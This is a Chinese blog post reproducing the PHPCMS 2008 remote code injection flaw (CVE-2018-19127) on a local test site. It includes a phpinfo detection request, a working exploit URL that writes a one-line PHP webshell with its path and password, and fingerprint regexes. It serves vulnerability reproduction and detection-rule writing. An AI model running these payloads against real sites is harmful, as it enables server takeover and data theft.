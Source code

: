 ```yaml
---
layout:     post
title:      【复现】PHPCMS 2008远程代码注入漏洞
subtitle:   远程代码注入漏洞
date:       2019-09-18
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 远程代码注入漏洞
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。
## 0x00 漏洞介绍
* 漏洞名称：PHPCMS 2008远程代码注入漏洞
* CVE编号：CVE-2018-19127
* 发布时间：2018-11-28
* 漏洞说明：该漏洞利用向PHPCMS网站路径可控的缓存文件写入任意内容，从而可以写入PHP代码，获取网站WebShell，最终获取到网站的最高权限。
* 影响范围：PHPCMS2008 sp4 及以下版本
* 修复建议：PHPCMS 2008 官方已不再维护，建议升级到 2008 以上的版本

## 0x01 环境搭建
下载源码：[http://www.onlinedown.net/soft/1135853.htm](http://www.onlinedown.net/soft/1135853.htm)
下载完成后，打开phpstudy，解压到WWW目录下面，访问URL：
![图片](../../../../img/phpcms2008_rce_1.png)
根据提示点击安装，下图是配置数据库信息和管理员信息：
![图片](../../../../img/phpcms2008_rce_2.png)

在安装过程中遇到报错的话是mysql版本高了，毕竟这款CMS比较老了。因为TYPE和ENGINE都代表数据库引擎，但type只向下兼容，所以mysql版本太高了不兼容，所以这里需要替换所有文件中存在以下关键词的，替换成-->后面的内容就可以安装成功了：
```
TYPE=MyISAM --> ENGINE=MyISAM 
TYPE=MEMORY --> ENGINE=MEMORY
```

修改完成后，重新配置数据库信息和管理员信息，完成后提交，过五秒提示安装成功：
![图片](../../../../img/phpcms2008_rce_3.png)


## 0x02 检测与利用
### Poc(检测)代码
我通过网上的EXP修改了一下，改为了显示phpinfo信息：
```
http://127.0.0.1/phpcms/type.php?template=tag_(){};@unlink(FILE);assert(phpinfo());{//../rss
```
以下是请求的数据包：
```
GET /phpcms/type.php?template=tag_(){};@unlink(FILE);assert(phpinfo());{//../rss HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```
下图说明了搭建的靶机环境确实存在该漏洞：
![图片](../../../../img/phpcms2008_rce_4.png)


### 利用(EXP)代码
```
/type.php?template=tag_(){};@unlink(FILE);assert($_POST[endust]);{//../rss
```
以下是请求的数据包：
```
GET /phpcms/type.php?template=tag_(){};@unlink(FILE);assert($_POST[endust]);{//../rss HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```

请求完成后，状态码为200的话，就可以尝试通过一句话客户端去连接一下：
```
连接地址：http://localhost/data/cache_template/rss.tpl.php
密码：endust
```

## 0x03 Web指纹
顺便记录一下Phpcms指纹规则：
```
1、<meta name\="generator" content=\"Phpcms (.*?)">
2、<link href="(.*)/phpcms.css(.*)>")
3、<meta content="Phpcms(.*)>")
```

## 0x04 总结
复现挺容易的，就是搭建这个环境花了一点时间，从想放弃到静下心来解决问题，而不是逃避问题，最后通过百度也成功解决了安装报错的问题。
